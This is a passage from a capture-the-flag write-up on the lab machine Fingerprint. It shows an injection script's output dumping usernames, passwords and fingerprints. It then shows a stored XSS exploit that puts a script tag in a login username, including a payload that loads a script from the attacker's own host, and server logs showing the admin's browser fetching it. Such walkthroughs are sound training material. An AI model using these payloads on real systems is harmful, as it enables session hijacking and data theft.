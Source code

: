 I came away with two usernames, two passwords, and two fingerprints:

```

oxdf@hacky$ python hqli.py   
Usernames:                                            
admin                                                                
micheal1235
Passwords:                          
lwg7gur1emx7unxsjxqz
o9vb0kb9kuzj1dtxzlv8
Fingerprints:                                      
7ef52c251f8044cb187013992891d0e58ce9194de7f535b1b4fa6bbfe08678f6
99cd639f9e163767115029a31acd97bfa19344b6202ac0b8bdd586e46f436666  

```

I’m not sure what these passwords are. They don’t work as plain-text passwords. They are case-insensitive. – case insensitive - username input is being lowercased!

The fingerprints are not MD5s, which suggests that perhaps they are hashed again before storing them in the database.

### XSS

#### Identify

I’ll note that my username on the 8080 login is logged in a readable way. There’s an XSS vulnerability in this `/admin` page, and it’s possible that the admin is viewing them.

So if I log in with a `<script>` tag in my username:

![image-20211106104106088](https://0xdfimages.gitlab.io/img/image-20211106104106088.png)

When I visit `/admin/view/auth.log`, there’s a popup:

![image-20211106104037358](https://0xdfimages.gitlab.io/img/image-20211106104037358.png)

#### Identify Admin XSS

I can load remote scripts as well, like with a username of `<script src="http://10.10.14.6/xss.js"></script>`. On entering that and then viewing the log, I see a connection at my webserver:

```

oxdf@hacky$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.6 - - [03/Nov/2021 08:44:20] code 404, message File not found
10.10.14.6 - - [03/Nov/2021 08:44:20] "GET /xss.js HTTP/1.1" 404 -

```

A bit later, there’s a connection from Fingerprint as well:

```
10.10.11.127 - - [05/Dec/2021 08:44:51] code 404, message File not found
10.10.11.127 - - [05/Dec/2021 08:44:51] "GET /xss.js HTTP/1.1" 404 -

```
